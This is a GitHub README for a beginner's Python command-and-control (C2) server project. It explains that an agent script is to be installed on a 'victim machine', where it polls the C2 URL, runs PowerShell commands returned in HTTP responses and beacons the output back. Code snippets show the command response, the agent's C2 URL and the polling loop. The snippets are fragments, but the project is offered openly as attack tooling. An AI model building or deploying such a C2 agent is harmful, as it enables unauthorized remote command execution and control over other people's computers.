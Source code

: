 # pyc2-c2overPOSTresponse

This project is still under development. This is a simmple C2 server that allows you to run Powershell commands. 
I am still a n33b at this but I believe that I will get better through help and suggestions from the community : ) 

## Installation

Download the .py files and run them. 

## Usage

For now you can only ran a command at a time. Open server.py and enter the command you want to be in the http response as shown below

``` 
        response_string = "whoami"

        # Set the response headers
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.send_header("Content-Length", len(response_string))
        self.end_headers()

        #send response string 
        self.wfile.write(response_string.encode('utf-8'))
```

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL 
    # This string will be sent to C2 to verify it's alive and return output of a command ran
    message_body = "ALIVE, Command Response: {}".format(output)
```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
if command_to_run:
            output = run_powershell_command(command_to_run)     
        time.sleep(10)  
        count =+ 1
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)